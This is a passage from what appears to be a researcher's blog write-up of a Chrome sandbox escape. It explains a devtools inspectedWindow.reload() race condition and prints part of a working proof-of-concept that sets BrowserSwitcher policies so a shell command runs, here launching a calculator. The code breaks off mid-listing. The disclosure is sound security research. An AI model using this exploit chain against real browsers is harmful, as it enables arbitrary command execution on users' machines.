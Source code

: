 ![](https://ading.dev/blog/assets/chrome_sandbox_escape/inspectedwindow_race.png)

And that's the final piece of the exploit chain working. This race condition relies on the fact that the inspected page and the devtools page are different processes. When the navigation to the WebUI occurs in the inspected page, there is a small window of time before the devtools page realizes and disables the API. If `inspectedWindow.reload()` is called within this interval of time, the reload request will end up on the WebUI page.

Putting it All Together
-----------------------

Now that I had all of the steps of the exploit working, I began putting together the proof of concept code. To recap, this POC has to do the following:

1.  Use the race condition in `chrome.devtools.inspectedWindow.reload()` to execute a JS payload on `chrome://policy`
2.  That payload calls `sendWithPromise("setLocalTestPolicies", policy)` to set custom user policies.
3.  The `BrowserSwitcherEnabled`, `BrowserSwitcherUrlList`, `AlternativeBrowserPath`, and `AlternativeBrowserParameters` are set, specifying `/bin/bash` as the "alternate browser."
4.  The browser switcher is triggered by a simple `window.open()` call, which executes a shell command.

The final proof of concept exploit looked like this:

```
let executable, flags;
if (navigator.userAgent.includes("Windows NT")) {
  executable = "C:\\Windows\\System32\\cmd.exe";
  flags = ["/C", "calc.exe & rem ${url}"];
}
else if (navigator.userAgent.includes("Linux")) {
  executable = "/bin/bash";
  flags = ["-c", "xcalc # ${url}"];
}
else if (navigator.userAgent.includes("Mac OS")) {
  executable = "/bin/bash";
  flags = ["-c", "open -na Calculator # ${url}"];
}

//function which injects the content script into the inspected page
function inject_script() {
  chrome.devtools.inspectedWindow.reload({"injectedScript": `
    (async () => {
      //check the origin, this script won't do anything on a non chrome page
      console.log(origin);
      if (!origin.startsWith("chrome://")) return;

      //import cr.js since we need sendWithPromise
      let cr = await import('chrome://resources/js/cr.js');

      //here are the policies we are going to set
      let policy = JSON.stringify([
        { //enable the browser switcher feature
          name: "BrowserSwitcherEnabled",
          value: true,
          level: 1,
          source: 1,
          scope: 1
        }, 
        { //set the browser switcher to trigger on example.com
          name: "BrowserSwitcherUrlList",
          value: ["example.com"],
          level: 1,
          source: 1,
          scope: 1
```